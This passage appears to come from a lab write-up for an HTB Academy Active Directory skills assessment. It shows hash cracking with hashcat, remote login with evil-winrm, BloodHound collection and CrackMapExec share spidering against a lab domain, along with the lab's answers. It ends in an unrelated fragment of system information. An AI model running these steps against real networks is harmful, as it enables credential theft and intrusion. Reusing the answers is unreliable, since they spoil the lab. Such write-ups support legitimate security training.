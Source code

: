 └──╼ $hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

<SNIP>

AB920::INLANEFREIGHT:<SNIP>:weasal

**Answer:** `**weasal**`

### 

3. Submit the contents of the C:\flag.txt file on MS01.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#3.-submit-the-contents-of-the-c-flag.txt-file-on-ms01.)

┌─[htb-student@skills-par01]─[~]

└──╼ $evil-winrm -i 172.16.7.50 -u AB920 -p weasal

<SNIP>

*Evil-WinRM* PS C:\Users\AB920\Documents> hostname; whoami

MS01

inlanefreight\ab920

*Evil-WinRM* PS C:\Users\AB920\Documents> type C:\flag.txt

aud1t_gr0up_m3mbersh1ps!

**Answer:** `**aud1t_gr0up_m3mbersh1ps!**`

### 

4. Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#4.-use-a-common-method-to-obtain-weak-credentials-for-another-user.-submit-the-username-for-the-user)

Grabbed data to be imported into BlooudHound GUI:

┌─[htb-student@skills-par01]─[~]

└──╼ $sudo bloodhound-python -u 'AB920' -p 'weasal' -ns 172.16.7.3 -d inlanefreight.local -c all

<SNIP>

​

┌─[htb-student@skills-par01]─[~]

└──╼ $zip -r ilfreight_bh.zip *.json

Enumerated shares, didn't find anything interesting:

crackmapexec smb 172.16.7.3 -u AB920 -p weasal --shares

crackmapexec smb 172.16.7.3 -u AB920 -p weasal -M spider_plus --share 'Department Shares'

cat /tmp/cme_spider_plus/172.16.7.3.json

Enumerated list of users and saved them into a file named `users` for password spraying:

┌─[htb-student@skills-par01]─[~]


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0